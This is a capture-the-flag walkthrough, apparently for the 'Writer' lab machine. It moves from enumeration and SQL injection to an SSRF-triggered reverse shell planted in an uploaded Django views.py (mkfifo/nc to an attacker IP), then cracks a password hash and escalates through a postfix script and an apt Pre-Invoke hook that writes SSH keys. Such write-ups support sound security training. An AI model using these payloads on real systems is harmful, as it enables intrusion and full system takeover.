








# Writer
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.11.101 --min-rate 1000            
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-07 07:57 GMT
Nmap scan report for 10.10.11.101 (10.10.11.101)
Host is up (0.17s latency).
Not shown: 65528 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
139/tcp   open     netbios-ssn
246/tcp   filtered dsp3270
445/tcp   open     microsoft-ds
30624/tcp filtered unknown
45985/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 75.27 seconds
```
```
└─$ nmap -Pn -p22,80,139,445 -sC -sV 10.10.11.101 --min-rate 1000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-07 07:59 GMT
Nmap scan report for 10.10.11.101 (10.10.11.101)
Host is up (0.22s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:20:b9:d0:52:1f:4e:10:3a:4a:93:7e:50:bc:b8:7d (RSA)
|   256 10:04:79:7a:29:74:db:28:f9:ff:af:68:df:f1:3f:34 (ECDSA)
|_  256 77:c4:86:9a:9f:33:4f:da:71:20:2c:e1:51:10:7e:8d (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Story Bank | Writer.HTB
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: -51s
| smb2-time: 
|   date: 2023-11-07T07:58:48
|_  start_date: N/A
|_nbstat: NetBIOS name: WRITER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.47 seconds

```

- Web Server


- `smb`
```
└─$ smbclient -N -L //10.10.11.101                                                             

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        writer2_project Disk      
        IPC$            IPC       IPC Service (writer server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.
smbXcli_negprot_smb1_done: No compatible protocol selected by server.
Protocol negotiation to server 10.10.11.101 (for a protocol between CORE and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available

```

- `gobuster`
```
└─$ gobuster dir -u http://10.10.11.101/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html,js,php --no-error

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.101/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,js,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/contact              (Status: 200) [Size: 4905]
/about                (Status: 200) [Size: 3522]
/static               (Status: 301) [Size: 313] [--> http://10.10.11.101/static/]
/logout               (Status: 302) [Size: 208] [--> http://10.10.11.101/]
/dashboard            (Status: 302) [Size: 208] [--> http://10.10.11.101/]
/administrative       (Status: 200) [Size: 1443]
```

## Foothold
- `http://10.10.11.101/administrative`


- Basic `sqli` authentification bypass works




- We couldn't do much in admin panel
  - But we can see our username is actually the payload we supplied
  - So let's continue with `sqli`
    - I'll start with `union` injection
  - Eventually, I found that there are 6 columns and second column is username





- Continue enumeration
  - We can drop the request to `sqlmap` to make it faster
  - But I'll continue with manual enumeration
    - https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
  - Looks like we have `file privileges`


- We can look for apache config to see if there are other web sites enabled
  - Default location is `/etc/apache2/sites-enabled/000-default.conf`



- We see 2 applications
  - `/var/www/writer.htb`
    - `/var/www/writer.htb/writer.wsgi` 
      - `WSGI` stands for "Web Server Gateway Interface". 
        - It is used to forward requests from a web server (such as `Apache` or `NGINX`) to a backend Python web application or framework
      - Shows source code location 
      - `# Import the __init__.py from the app folder`
    - `/var/www/writer.htb/writer/__init__.py` contains source code for web app
  - `/var/www/writer2_project`
- I'll start with `writer.htb`
  - Dump the source code and use [CyberChef](https://gchq.github.io/CyberChef) to decode from `HTML Entity`




- We find a possible `ssrf` and `command injections` in `/dashboard/stories/edit/<id>` and `/dashboard/stories/add`
```
<SNIP>
@app.route('/dashboard/stories/add', methods=['GET', 'POST'])
def add_story():
    if not ('user' in session):
        return redirect('/')
    try:
        connector = connections()
    except mysql.connector.Error as err:
            return ("Database error")
    if request.method == "POST":
        if request.files['image']:
            image = request.files['image']
            if ".jpg" in image.filename:
                path = os.path.join('/var/www/writer.htb/writer/static/img/', image.filename)
                image.save(path)
                image = "/img/{}".format(image.filename)
            else:
                error = "File extensions must be in .jpg!"
                return render_template('add.html', error=error)

        if request.form.get('image_url'):
            image_url = request.form.get('image_url')
            if ".jpg" in image_url:
                try:
                    local_filename, headers = urllib.request.urlretrieve(image_url)  # <---------- SSRF
                    os.system("mv {} {}.jpg".format(local_filename, local_filename)) # <---------- COMMAND INJECTION
                    image = "{}.jpg".format(local_filename)
                    try:
                        im = Image.open(image) 
                        im.verify()
                        im.close()
                        image = image.replace('/tmp/','')
                        os.system("mv /tmp/{} /var/www/writer.htb/writer/static/img/{}".format(image, image))
                        image = "/img/{}".format(image)
                    except PIL.UnidentifiedImageError:
                        os.system("rm {}".format(image))
                        error = "Not a valid image file!"
                        return render_template('add.html', error=error)
                except:
                    error = "Issue uploading picture"
                    return render_template('add.html', error=error)
<SNIP>
```

- Navigate to admin panel and add a new story
  - Click on `here` under `Story Image` to change the form




- The request after adding the story




- So the `image_url` is filled when I enter url



- We can also spray the creds we found
  - Luckily we have access as `kyle` to smb
```
└─$ smbmap -H 10.10.11.101 -u kyle -p ToughPasswordToCrack                                     

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)                                
                                                                                                    
[+] IP: 10.10.11.101:445        Name: 10.10.11.101              Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  READ ONLY       Printer Drivers
        writer2_project                                         READ, WRITE
        IPC$                                                    NO ACCESS       IPC Service (writer server (Samba, Ubuntu))
                                                                                                                              
```

- We have a write permissions over `writer2_project` on port `8080`
  - The one we saw in `apache` configs
```
└─$ smbclient //10.10.11.101/writer2_project -U 'kyle%ToughPasswordToCrack'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Nov  7 14:41:06 2023
  ..                                  D        0  Tue Jun 22 18:55:06 2021
  static                              D        0  Sun May 16 21:29:16 2021
  staticfiles                         D        0  Fri Jul  9 11:59:42 2021
  writer_web                          D        0  Wed May 19 16:26:18 2021
  requirements.txt                    N       15  Tue Nov  7 14:42:01 2023
  writerv2                            D        0  Wed May 19 13:32:41 2021
  manage.py                           N      806  Tue Nov  7 14:42:01 2023

                7151096 blocks of size 1024. 2456748 blocks available
```

- There are 2 projects
  - The one we need is `writer_web`
  - It has `views.py` with defined `/` path
  - We could overwrite it and if we find a way to visit that page, we will have an execution
    - And we have `SSRF` on `writer.htb` when we add stories

```
smb: \writer_web\> ls
  .                                   D        0  Wed May 19 16:26:18 2021
  ..                                  D        0  Tue Nov  7 14:41:06 2023
  apps.py                             N      133  Tue Nov  7 15:20:01 2023
  views.py                            A      181  Tue Nov  7 15:20:01 2023
  __init__.py                         N        0  Tue Nov  7 15:20:01 2023
  urls.py                             N      127  Tue Nov  7 15:20:01 2023
  tests.py                            N       60  Tue Nov  7 15:20:01 2023
  __pycache__                         D        0  Wed May 19 22:06:02 2021
  admin.py                            N       63  Tue Nov  7 15:20:01 2023
  models.py                           N       98  Tue Nov  7 15:20:01 2023
  templates                           D        0  Tue May 18 14:43:07 2021
```


- I will upload the `views.py`
```
from django.shortcuts import render
from django.views.generic import TemplateView
import os

def home_page(request): 
    os.system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.4 6666 >/tmp/f')
    template_name = "index.html"
    return render(request,template_name)                            
```
```
smb: \writer_web\> put views.py 
putting file views.py as \writer_web\views.py (0.6 kb/s) (average 0.6 kb/s)
```

- Now we have to trigger `SSRF`
  - But the request requires `.jpg`, while `writer2_project` with our payload is hosted on `/`
  - We can `.jpg` as parameter, like `http://127.0.0.1/?.jpg`, which would satisfy both
  - Let's get our reverse shell by passing `http://127.0.0.1/?.jpg` to `image_url`


## User #1
- `netstat`
```
www-data@writer:~/writer2_project$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      21578/python3       
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::139                  :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::445                  :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 10.10.11.255:137        0.0.0.0:*                           -                   
udp        0      0 10.10.11.101:137        0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:137             0.0.0.0:*                           -                   
udp        0      0 10.10.11.255:138        0.0.0.0:*                           -                   
udp        0      0 10.10.11.101:138        0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:138             0.0.0.0:*                           - 
```

- We have a [manage.py](https://docs.djangoproject.com/en/1.8/ref/django-admin/) which indicates it's a `django` app
  - 
```
#!/usr/bin/env python
import os
import sys

if __name__ == "__main__":
    os.environ.setdefault("DJANGO_SETTINGS_MODULE", "writerv2.settings")
    try:
        from django.core.management import execute_from_command_line
    except ImportError:
        # The above import may fail for some other reason. Ensure that the
        # issue is really that Django is missing to avoid masking other
        # exceptions on Python 2.
        try:
            import django
        except ImportError:
            raise ImportError(
                "Couldn't import Django. Are you sure it's installed and "
                "available on your PYTHONPATH environment variable? Did you "
                "forget to activate a virtual environment?"
            )
        raise
    execute_from_command_line(sys.argv)

```

- We can use it to connect to database
```
www-data@writer:~/writer2_project$ python3 manage.py dbshell
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 536
Server version: 10.3.29-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [dev]> 

```

- Let's enumerate
```
MariaDB [dev]> show databases;
+--------------------+
| Database           |
+--------------------+
| dev                |
| information_schema |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [dev]> use dev;
Database changed
MariaDB [dev]> show tables;
+----------------------------+
| Tables_in_dev              |
+----------------------------+
| auth_group                 |
| auth_group_permissions     |
| auth_permission            |
| auth_user                  |
| auth_user_groups           |
| auth_user_user_permissions |
| django_admin_log           |
| django_content_type        |
| django_migrations          |
| django_session             |
+----------------------------+
10 rows in set (0.001 sec)

MariaDB [dev]> select * from auth_user;
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
| id | password                                                                                 | last_login | is_superuser | username | first_name | last_name | email           | is_staff | is_active | date_joined                |
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
|  1 | pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A= | NULL       |            1 | kyle     |            |           | kyle@writer.htb |        1 |         1 | 2021-05-19 12:41:37.168368 |
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
1 row in set (0.001 sec)

MariaDB [dev]> 
```

- Let's crack the hash
```
└─$ hashcat -m 10000 hash /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting
<SNIP>
pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=:marcoantonio
<SNIP>
```

- And we can connect as `kyle`
```
└─$ sshpass -p 'marcoantonio' ssh kyle@10.10.11.101
Warning: Permanently added '10.10.11.101' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue  7 Nov 15:53:57 UTC 2023

  System load:           0.2
  Usage of /:            64.6% of 6.82GB
  Memory usage:          23%
  Swap usage:            0%
  Processes:             260
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.101
  IPv6 address for eth0: dead:beef::250:56ff:feb9:c605

 * Pure upstream Kubernetes 1.21, smallest, simplest cluster ops!

     https://microk8s.io/

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Wed Jul 28 09:03:32 2021 from 10.10.14.19
kyle@writer:~$ 

```
## User #2
- We have a `filter` group
```
kyle@writer:~$ id
uid=1000(kyle) gid=1000(kyle) groups=1000(kyle),997(filter),1002(smbgroup)
```

- We can look for files accessible by `filter`
```
kyle@writer:~$ find / -group filter -ls 2>/dev/null
    16282      4 -rwxrwxr-x   1 root     filter       1021 Nov  7 16:02 /etc/postfix/disclaimer
    16281      4 drwxr-x---   2 filter   filter       4096 May 13  2021 /var/spool/filter
```

- `postfix` is mail service
  - `master.cf` contains scripts that are executed when email arrive
  - `/etc/postfix/disclaimer` is run by `john`
```
kyle@writer:~$ cat /etc/postfix/master.cf
<SNIP>
dfilt     unix  -       n       n       -       -       pipe
  flags=Rq user=john argv=/etc/postfix/disclaimer -f ${sender} -- ${recipient}
```

- According to [post](https://www.howtoforge.com/how-to-automatically-add-a-disclaimer-to-outgoing-emails-with-altermime-postfix-on-debian-squeeze), `/etc/postfix/disclaimer_addresses` contains the list of addresses for which disclaimer is added, thus script is ran
```
kyle@writer:~$ cat /etc/postfix/disclaimer_addresses
root@writer.htb
kyle@writer.htb
```

- I'll reconnect via `ssh` with `-L 25:127.0.0.1:25` since `postfix` is available on `localhost`
  - We can send emails using `swaks`
  - Since we can modify the `/etc/postfix/disclaimer`, we can modify the script to add public key to `john`'s `authorized_keys`
  - Which is what I did

```
#!/bin/sh
echo 'ssh-rsa AAAAB3<SNIP> kali@kali' > /home/john/.ssh/authorized_keys
# Localize these.
<SNIP>
```

- Now we send a mail to `kyle@writer.htb`
```
└─$ swaks --to kyle@writer.htb --from pentest@writer.htb --header "Subject: Test" --body "Test" --server 127.0.0.1
=== Trying 127.0.0.1:25...
=== Connected to 127.0.0.1.
<-  220 writer.htb ESMTP Postfix (Ubuntu)
 -> EHLO kali
<-  250-writer.htb
<-  250-PIPELINING
<-  250-SIZE 10240000
<-  250-VRFY
<-  250-ETRN
<-  250-STARTTLS
<-  250-ENHANCEDSTATUSCODES
<-  250-8BITMIME
<-  250-DSN
<-  250-SMTPUTF8
<-  250 CHUNKING
 -> MAIL FROM:<pentest@writer.htb>
<-  250 2.1.0 Ok
 -> RCPT TO:<kyle@writer.htb>
<-  250 2.1.5 Ok
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Tue, 07 Nov 2023 16:30:16 +0000
 -> To: kyle@writer.htb
 -> From: pentest@writer.htb
 -> Subject: Test
 -> Message-Id: <20231107163016.307941@kali>
 -> X-Mailer: swaks v20201014.0 jetmore.org/john/code/swaks/
 -> 
 -> Test
 -> 
 -> 
 -> .
<-  250 2.0.0 Ok: queued as 538A07C6
 -> QUIT
<-  221 2.0.0 Bye
=== Connection closed with remote host.

```

- And we connect as `john`
```
└─$ ssh john@10.10.11.101                               
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue  7 Nov 16:29:30 UTC 2023

  System load:           0.09
  Usage of /:            64.7% of 6.82GB
  Memory usage:          34%
  Swap usage:            0%
  Processes:             269
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.101
  IPv6 address for eth0: dead:beef::250:56ff:feb9:c605


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Jul 28 09:19:58 2021 from 10.10.14.19
john@writer:~$ 
```
## Root
- Groups
```
john@writer:~$ id
uid=1001(john) gid=1001(john) groups=1001(john),1003(management)

```
```
john@writer:~$ find / -group management 2>/dev/null
/etc/apt/apt.conf.d
```

- [apt.conf.d](https://debian-handbook.info/browse/wheezy/sect.apt-get.html) stores `instructions for the configuration of APT. APT includes them in alphabetical order, so that the last ones can modify a configuration element defined in one of the first ones`
- We can create files in that folder, but it means nothing if can't use [apt update](https://gtfobins.github.io/gtfobins/apt/) to invoke configuration we created
  - Luckily we have a cronjob running every minute
  - We can confirm it with `pspy`
  - I'll create a config `001pwn`
```
apt::Update::Pre-Invoke {"echo 'ssh-rsa ssh-rsa AAAAB3<SNIP> kali@kali' > /root/.ssh/authorized_keys";};
```

- After a minute we can login as `root`
```
└─$ ssh root@10.10.11.101                               
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue  7 Nov 16:40:11 UTC 2023

  System load:           0.12
  Usage of /:            64.7% of 6.82GB
  Memory usage:          34%
  Swap usage:            0%
  Processes:             272
  Users logged in:       2
  IPv4 address for eth0: 10.10.11.101
